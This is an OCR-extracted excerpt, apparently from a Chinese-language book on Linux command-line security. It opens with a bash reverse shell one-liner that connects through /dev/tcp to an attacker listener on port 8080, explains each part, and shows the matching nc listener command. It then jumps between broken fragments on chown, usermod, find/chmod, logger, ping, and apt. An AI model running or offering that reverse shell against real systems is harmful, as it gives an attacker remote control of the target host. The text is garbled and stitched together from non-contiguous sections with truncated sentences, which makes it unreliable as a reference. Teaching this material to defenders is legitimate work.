 /bin/bash -i < /dev/tcp/192.168.10.5/8080 1>&0 2>&0
虽然只有一行，但是这里发生了很多事情，所以让我们把它分解一下：
￼
/bin/bash -i
这将调用bash的一个新实例，并以交互模式运行它。

这将在端口8080上创建从192.168.10.5到攻击者系统的TCP连接，并将其作为输入重定向到新的bash实例。用攻击者系统的IP地址和端口替换这里的IP地址和端口

在攻击者系统上，你需要有来自目标的连接的服务器端口列表。为此，可以使用nc：
￼
$ nc -l -v -p 8080￼

### 17.1 使用的命令

-R￼
    递归地更改文件和目录。
17.1.2 chown

usermod命令用于修改用户设置，比如Linux中的主目录位置和组。
常见的命令选项
-d￼
    设置用户的主目录。-g￼
    设置用户组。

### 17.4 进行批量更改

find . -type f -user jsmith -exec chown mwilson '{}' \；

查找当前工作目录中包含单词secret的所有文件，并使其只能由所有者访问：
￼
find . -type f -name '*secret*' -exec chmod 600 '{}' \；

### 17.5 总结

创建和管理用户和组是维护系统安全性的一个关键方面。尽量遵循最小特权原则，只向用户分配执行其分配的任务所必需的权限。

### 18.3 编写Linux日志

logger命令用于将事件写入Linux系统日志。这些事件通常存储在/var/log/messages中，但这也有可能因Linux发行版的不同而有所不同。
向日志中写

### 19.1 使用的命令

ping命令使用网际控制消息协议（Internet Control and Messaging Protocol, ICMP）来确定远程系统是否可用。

ICMP流量可以被网络防火墙和其他设备阻塞。如果你ping一个设备，它没有响应，这并不意味着该设备不可用，它可能只是过滤了ICMP包

### 20.1 使用的命令

列出系统上安装的所有软件包：
￼
apt list--installed

### 第22章 工具：账户审核
